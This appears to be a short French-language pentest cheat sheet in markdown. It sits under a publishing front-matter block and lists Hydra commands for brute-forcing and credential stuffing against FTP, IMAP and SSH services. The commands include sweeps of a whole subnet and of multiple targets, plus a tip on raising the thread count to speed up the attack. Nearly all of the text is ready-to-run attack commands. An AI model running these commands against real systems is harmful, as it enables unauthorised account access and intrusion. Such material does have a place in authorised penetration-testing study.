 ```yaml
---
public: true # set to true to make the article publishable
---
```

```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

## Augmenter la rapidité de l'attaque

On peut utiliser `-t 64` pour augmenter le nombre de threads

```
hydra -l sam -P mut_password.list ftp://$TARGET_IP -t 64 
```

